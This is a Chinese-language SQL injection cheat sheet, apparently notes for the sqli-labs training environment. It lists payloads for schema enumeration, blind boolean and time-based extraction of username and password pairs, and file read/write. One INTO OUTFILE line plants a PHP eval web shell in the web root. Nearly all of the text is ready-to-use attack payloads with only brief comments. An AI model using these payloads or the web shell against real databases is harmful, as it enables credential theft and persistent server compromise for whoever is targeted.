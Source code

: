 ```sql
select column_name from information_schema.columns where table_schema = 'security' and table_name = 'users' LIMIT 1,1;
# 查看数据表中有多少数据
SELECT COUNT(*) FROM `security`.`users`
# 查看数据表中的数据
select concat_ws('@',username,password) from `security`.`users` limit 0,1
# 写入文件
select '<?php @eval($_POST["giantbranch"]);?>' into outfile 'D:\\phpStudy\\WWW\\sqli-labs\\Less-7\\Leaama.php'
# 导出文件
select load_file('D:\\xxx\\index.php') into outfile 'D:\\phpStudy\\WWW\\sqli-labs\\Less-7\\xx.txt'
# 直接获取当前数据库的字段
select table_name from information_schema.tables where table_schema=database() limit 0,1
```

## 布尔型盲注

```sql
# 查看数据库的库
and ascii(substr((select schema_name from information_schema.schemata LIMIT 4, 1),1,1))=53--+
# 查看数据库的表
and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' LIMIT 0, 1),1,1))=53,1,0)--+
# 查看数据库的列
and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' LIMIT 0, 1),1,1))=53,1,0)--+
# 查看数据库的数据的长度
and length((select concat_ws('@',username,password) from `security`.`users` limit 2,1))>8 --+
# 查看数据库的数据
and ascii(substr((select concat_ws('@',username,password) from `security`.`users` limit 0,1),1)) >1 --+
and if(ascii(substr((SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),1,1))>53,1,0)--+
# 完整的语句
SELECT if(ascii(substr((select concat_ws('@',username,password) from `security`.`users` limit 0,1),1,1))>53,1,0)
```

## 时间盲注

```sql
# 查看数据库的长度
and if(length((select database()))>10,sleep(10),0)--+
# 查看数据库的库
and if(ascii(substr((select schema_name from information_schema.schemata LIMIT 4, 1),1,1))=53,sleep(10),0)--+
and if(substr((select schema_name from information_schema.schemata LIMIT 4, 1),1,1)='s',sleep(10),0)--+
# 查看数据库的表
and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' LIMIT 0, 1),1,1))>53,sleep(10),0)--+
and if(substr((select table_name from information_schema.tables where table_schema='security' LIMIT 0, 1),1,1)='a',sleep(10),0)--+
# 查看数据库的列
and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' LIMIT 0, 1),1,1))>53,sleep(10),0)--+
and if(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' LIMIT 0, 1),1,1)='a',sleep(10),0)--+
# 查看数据库的数据的长度
and if(length((select concat_ws('@',username,password) from `security`.`users` limit 2,1))>8,sleep(10),0)--+
# 查看数据库的数据
```